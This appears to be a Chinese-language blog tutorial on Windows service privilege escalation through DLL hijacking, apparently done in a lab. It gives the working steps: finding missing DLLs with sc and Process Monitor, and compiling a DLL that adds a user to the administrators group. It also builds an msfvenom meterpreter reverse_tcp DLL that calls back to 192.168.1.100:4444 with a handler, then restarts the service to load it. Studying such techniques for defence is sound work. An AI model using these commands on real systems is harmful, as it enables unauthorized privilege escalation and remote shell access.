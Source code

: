 ```yaml
---
title: windows服务提权&dll劫持
categories:
- windows
tags:
- windows
---
```


参考资料：
- [dll劫持](https://www.cnblogs.com/bmjoker/p/11031238.html)
- [sc.exe windows 服务管理](https://blog.csdn.net/jiangqin115/article/details/46531099)
- [youtube视频](https://www.youtube.com/watch?v=9s8jYwx9FSA&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=3)

制作了一个youtube[视频](https://www.youtube.com/watch?v=wlq2FqkN0GA)，下面是用到的一些命令。

sc是一个管理主机服务的工具

查看一个服务的运行状态 ，sc query 服务名

查看一个服务的配置信息 ，sc qc 服务名

【windows】
```
whoami

C:\Program Files\DLL Hijack Service\dllhijackservice.exe

进程监视器
dllhijackservice.exe
过滤
NAME NOT FOUND
---
sc qc dllsvc
sc start dllsvc
```
【kali】
修改windows_dll.c 
`cmd.exe /k net localgroup administrators user /add`

编译
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f dll -o hijackme.dll`

`handler -H 192.168.1.100 -P 4444 -p windows/x64/meterpreter/reverse_tcp`

【windows】
将`hijackme.dll`复制到地址`C:\Temp`

运行命令`sc stop dllsvc & sc start dllsvc`
